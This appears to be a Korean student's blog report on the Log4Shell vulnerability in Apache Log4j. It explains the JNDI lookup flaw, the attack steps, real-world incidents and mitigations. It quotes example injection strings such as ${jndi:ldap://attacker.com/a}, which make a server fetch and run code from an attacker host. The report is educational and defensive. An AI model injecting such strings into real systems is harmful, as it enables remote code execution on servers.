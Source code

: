 ```yaml
---
layout: post
title:  LOG4shell 보고서서
date:   2025-03-24
category: Design
image: assets/img/5_28_work/log4shell.jpg
author: Ryan Adlard
tags: code
---
```


사이버 보안과 2학년 2420110205 이태강 
1.	Log4Shell이란?
Apache Log4j라는 Java 기반 로깅 라이브러리에서 발견된 원격 코드 실행(RCE) 취약점
1.	높은 위험도: CVSS 점수 10점(최고 점수)을 받았으며, 광범위한 영향으로 인해 매우 위험합니다.
2.	영향받는 버전: Apache Log4j 2.0-beta9부터 2.14.1 사이의 버전이 취약합니다
2. 취약점의 원리
Log4Shell은 JNDI(Java Naming and Directory Interface) Lookup 기능의 취약점을 악용합니다:
1.	JNDI Lookup의 동작: Log4j는 로그 메시지 내 특정 문자열(예: ${jndi:ldap://attacker.com/a})을 처리할 때 JNDI를 호출하여 외부 서버와 통신합니다.
2.	검증 부족: JNDI 호출 시 외부 디렉토리 서비스(LDAP, RMI 등)에서 데이터를 불러오는데, 이 과정에서 입력값 검증이 제대로 이루어지지 않았습니다.
3.	악성 코드 실행: 공격자는 악성 페이로드를 포함한 URL을 삽입하여 Log4j가 이를 처리하도록 유도하고, 서버가 공격자의 LDAP 서버에서 악성 클래스를 다운로드 및 실행하게 만듭니다.

3. 공격 과정

1.	악성 문자열 삽입:
공격자는 로그 메시지에 ${jndi:ldap://malicious-server}와 같은 악성 문자열을 삽입합니다. 이 문자열은 Log4j가 JNDI(Java Naming and Directory Interface) 호출로 처리하도록 설계되었습니다.
2.	JNDI Lookup 수행:
Log4j는 로그 메시지를 처리할 때 JNDI Lookup 기능을 통해 외부 서버(예: ldap://malicious-server)와 통신합니다. 이때, 입력값에 대한 검증이 이루어지지 않아 공격자의 서버로 연결됩니다.
3.	악성 Java 클래스 반환:
공격자의 LDAP 서버는 악성 Java 클래스 파일을 반환합니다. 이 파일은 공격자가 미리 설계한 페이로드를 포함하고 있습니다.
4.	피해 서버에서 실행:
피해 서버는 반환된 Java 클래스를 역직렬화하거나 실행합니다. 이로 인해 공격자는 피해 서버에서 임의의 코드를 실행하거나 시스템을 제어할 수 있게 됩니다

  
4. 피해 사례
   Log4Shell은 전 세계적으로 광범위한 영향을 미쳤으며, 다음과 같은 주요 사례가 보고되었습니다:
•	Minecraft: 게임 내 채팅창에 악성 문자열을 입력해 서버를 장악하는 방식으로 Khonsari 랜섬웨어가 유포되었습니다.
•	대형 기업: Twitter, Cisco, VMware 등 여러 글로벌 기업이 영향을 받았으며, 해커들은 크립토마이닝, 파일리스 멀웨어 등을 배포했습니다.
•	국가 차원의 공격: 중국, 이란, 북한 등과 관련된 해커들이 이 취약점을 악용한 것으로 나타났습니다.
5. 방어 방법
   Log4Shell 취약점을 방어하기 위해 다음과 같은 조치가 권장됩니다:

1.	Log4j 업데이트:
Apache에서 제공한 패치 버전(2.15.0 이상)으로 즉시 업데이트합니다.
최신 버전(2.17.x)을 사용하는 것이 가장 안전합니다.

2.	JNDI Lookup 비활성화:
log4j2.formatMsgNoLookups=true 옵션을 설정하거나, %m을 %m{nolookups}로 변경하여 JNDI 호출을 차단합니다.

3.	네트워크 보안 강화:
IDS/IPS(침입 탐지/방지 시스템)를 사용해 의심스러운 트래픽을 차단합니다.
방화벽 규칙을 설정해 외부 LDAP/RMI 요청을 제한합니다.

4.	대체 라이브러리 사용:
Logback 등 다른 로깅 라이브러리로 교체
